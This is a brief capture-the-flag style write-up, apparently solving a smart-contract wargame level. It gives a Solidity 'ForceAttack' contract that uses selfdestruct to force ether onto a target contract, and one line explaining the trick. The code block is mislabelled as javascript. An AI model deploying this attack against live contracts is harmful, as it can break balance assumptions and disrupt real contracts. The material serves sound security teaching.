 ```javascript
pragma solidity ^0.6.0;

contract ForceAttack {
  function attack(address payable addr) public {
      selfdestruct(addr);
  }
}
```

`selfdestruct` to force `eth` onto the contract address.